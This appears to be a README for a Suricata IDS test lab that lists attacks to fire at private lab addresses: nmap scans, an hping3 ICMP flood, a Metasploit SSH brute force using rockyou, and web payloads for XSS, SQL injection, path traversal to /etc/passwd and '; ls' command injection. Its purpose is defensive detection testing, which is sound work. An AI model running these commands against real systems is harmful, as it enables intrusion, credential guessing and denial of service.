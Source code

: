 # Lab Suricata - Tests IDS
## 1. Network-Based Attacks

### NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

### NMAP UDP SCAN :
```bash
nmap -sU 192.168.100.10
```

### ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

### Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

### SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

## 2. Web-based



### XSS (Cross-Site Scripting)
```bash
<script>alert("test")</script>

```

### SQL Injection
```bash
1' OR 1=1#&Submit=Submit

```

### Directory Traversal
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### File Inclusion
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### Command Injection
```bash
; ls
```

